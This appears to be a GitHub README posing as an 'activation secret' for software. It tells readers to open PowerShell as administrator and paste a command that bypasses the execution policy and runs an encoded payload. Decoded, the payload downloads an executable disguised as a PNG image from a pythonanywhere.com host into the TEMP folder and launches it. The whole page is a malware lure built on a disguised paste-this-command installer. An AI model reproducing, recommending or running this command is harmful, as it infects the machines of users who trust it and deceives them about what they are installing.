 # ACTIVATION SECRET

> [!IMPORTANT]
> Copy and paste the full command and run powershell as admin.

> [!NOTE]
> > Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHMAdABhAHIAdABpAG4AZwBjAG8AbgBuAGUAYwB0AGkAbwBuAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAG0AYQBpAG4ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7AAoA

